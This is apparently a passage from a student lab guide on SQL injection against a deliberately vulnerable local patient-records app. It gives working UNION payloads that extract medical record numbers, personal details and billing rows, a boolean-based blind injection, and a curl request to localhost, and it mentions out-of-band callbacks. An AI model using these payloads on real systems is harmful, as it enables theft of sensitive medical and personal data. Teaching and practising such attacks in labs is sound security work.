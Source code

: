 **Important:** The vulnerable query returns 6 columns (id, medical_record_number, first_name, last_name, dob, email). Any UNION SELECT must return the same number of columns and compatible types (or use fillers).

**Example payload (search box):**

```sql
' UNION SELECT 1, medical_record_number, first_name, last_name, dob, email FROM patients -- 
```

**Notes:**

* The leading single quote closes the literal; UNION SELECT ... appends rows.
* -- comments out the rest of the original query.
* If the page displays rows from patients, the UNION succeeded.

Extracting billing info (map billing columns into the 6 display columns):

```sql
' UNION SELECT id, CONCAT('BILL#',id), amount, currency, status, description FROM billing -- 
```

**Result:** Billing rows appear in the patients table display — demonstrating exfiltration to a UI that wasn't intended to show billing.

### Step 4 — Blind techniques (when errors suppressed)

If the app does not reveal SQL errors or you cannot use UNION, use blind methods:

**Boolean-based example:** check whether first letter of database version is '5'

```sql
' AND (SELECT SUBSTRING(VERSION(),1,1))='5' --
```

* Observe whether response changes (true/false) to infer values character by character.

Time-based example (MySQL):

* If the response is delayed, the tested condition is true.

> Blind techniques are slower but powerful when output is limited.


### Step 5 — OOB (Out-of-band) exfiltration (advanced / optional)

If direct responses are blocked but the database can make network calls (rare in default MySQL), use features (e.g., LOAD_FILE, OUTFILE, or DB-specific UDFs) or cause DNS/HTTP callbacks to an attacker-controlled server. Do not perform network exfiltration on shared lab networks. This is only for advanced/simulated labs.

```http request
curl "http://127.0.0.1:8080/patient_lookup.php?q=%27+UNION+SELECT+1%2C+medical_record_number%2C+first_name%2C+last_name%2C+dob%2C+email+FROM+patients+--+"
```


## Common pitfalls & hints for students

